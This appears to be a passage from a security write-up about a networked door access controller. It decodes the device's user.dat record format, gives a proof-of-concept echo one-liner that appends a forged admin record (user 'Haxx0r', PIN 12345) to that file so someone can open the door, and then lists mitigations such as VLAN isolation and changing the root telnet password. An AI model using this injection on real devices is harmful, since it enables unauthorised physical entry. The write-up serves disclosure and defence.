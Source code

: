 Looking at this, we can tell a few things right off the bat.  To make it easier, I've labeled the columns

     1  2  3  4  5  6  7  8  9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28
    -----------------------------------------------------------------------------------
    01 00 06 31 32 33 34 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 01 00 00 00
    02 00 00 36 39 36 39 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 d0 07 00 00

Now, the admin was enrolled with id 1, and pin 1234.  The user was enrolled with id 2000, pin 6969.  Bytes 4-7 look to be ASCII, and actually correspond with the pin number.  Byte 1 seems to be an index number.  Byte 3 is most likely privilege level (6 for admin, 0 for user).  Bytes 25 looks to be the id for 1, and 0x07d0 is 2000, so the numbers are stored little endian.  Based off one of the production units, I was also able to see that 9-16 is an ascii Name, and 17-19 is the RFID card number (little endian).

## PoC

Ok, so now I know how the user database works.  How can I actually use this to get in a door?

    echo -n -e \\\\x39\\\\x5\\\\x6\\\\x31\\\\x32\\\\x33\\\\x34\\\\x35\\\\x48\\\\x61\\\\x78\\\\x78\\\\x30\\\\x72\\\\x0\\\\x0\\\\x0\\\\x0\\\\x0\\\\x0\\\\x0\\\\x1\\\\x0\\\\x0\\\\x39\\\\x5\\\\x0\\\\x0 >> user.dat

That simple one liner will append a record onto the user.dat file.  It will look like:

     1  2  3  4  5  6  7  8  9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28
    -----------------------------------------------------------------------------------
    39 05 06 31 32 33 34 35 48 61 78 78 30 72 00 00 00 00 00 00 00 01 00 00 39 05 00 00

This will create a user named Haxx0r, with id 1337, with a pin number of 12345.  Then you can just walk up to the door and let yourself in.

## Mitigation

Unfortunately, this isn't going to be patched anytime in the near future.  Obviously, the most effective mitigation is to take these devices completely off the network.  You then lose all of the advantages from having a centrally managed system, though.  In lieu of that, here is what you can do:

### Segregate the hell out of these things

Put them on their own vlan, with no access to the internet, and no access to/from any other vlans, with the exception of the management server.  There really is no good reason these things should be anywhere near the public internet (although a lot of them unfortunately are).

### Change the root telnet password

Luckily, it is pretty easy to change the root password.  You just set a new root password, then copy the passwd file (no shadow files here) over /mnt/mtdblock and /mnt/mtdblock/data

    # passwd
    Changing password for root
    Enter the new password (minimum of 5, maximum of 8 characters)
    Please use a combination of upper and lower case letters and numbers.
    Enter new password: 
    Re-enter new password: 
    Password changed.
    # cp /etc/passwd /mnt/mtdblock
    # cp /etc/passwd /mnt/mtdblock/data/
